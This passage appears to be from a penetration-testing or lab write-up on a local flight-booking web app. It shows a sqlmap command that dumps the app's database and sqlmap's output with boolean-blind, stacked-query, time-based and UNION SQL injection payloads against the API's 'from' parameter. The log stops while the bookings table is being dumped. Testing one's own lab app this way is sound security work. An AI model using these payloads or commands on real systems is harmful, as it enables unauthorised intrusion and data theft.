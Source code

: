 ### SQL Map:
Since we found an SQL injection on the `booking.html` page, we will run `sqlmap` to enumerate and hopefully dump all the databases.

```bash
┌──(kali㉿kali)-[~/flybook]
└─$ sqlmap -u 'http://localhost:8000/api/API.php?API_KEY=Flight%20booker%201.2%20plus%20edition&action=get&items=flights&date=2018-05-01&from=%202341&to=%201' --dump    
        ___
       __H__                                                                                                                                       
 ___ ___[.]_____ ___ ___  {1.6.5#stable}                                                                                                           
|_ -| . ["]     | .'| . |                                                                                                                          
|___|_  [)]_|_|_|__,|  _|                                                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 05:28:19 /2022-05-15/

[05:28:19] [INFO] resuming back-end DBMS 'mysql' 
[05:28:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: from (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: API_KEY=Flight booker 1.2 plus edition&action=get&items=flights&date=2018-05-01&from=(SELECT (CASE WHEN (5174=5174) THEN ' 2341' ELSE (SELECT 5215 UNION SELECT 6872) END))&to= 1

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: API_KEY=Flight booker 1.2 plus edition&action=get&items=flights&date=2018-05-01&from= 2341;SELECT SLEEP(5)#&to= 1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: API_KEY=Flight booker 1.2 plus edition&action=get&items=flights&date=2018-05-01&from= 2341 AND (SELECT 6372 FROM (SELECT(SLEEP(5)))seLZ)&to= 1

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: API_KEY=Flight booker 1.2 plus edition&action=get&items=flights&date=2018-05-01&from= 2341 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x74626b5667447a41504241724c736f6b6d6b70494d7a666a6b77657a6463574c684d5863464a4179,0x717a7a7071),NULL,NULL,NULL-- -&to= 1
---
[05:28:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.3.33, Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
[05:28:19] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[05:28:19] [INFO] fetching current database
[05:28:19] [INFO] fetching tables for database: 'flybook'
[05:28:20] [INFO] fetching columns for table 'bookings' in database 'flybook'
[05:28:20] [INFO] fetching entries for table 'bookings' in database 'flybook'
Database: flybook
```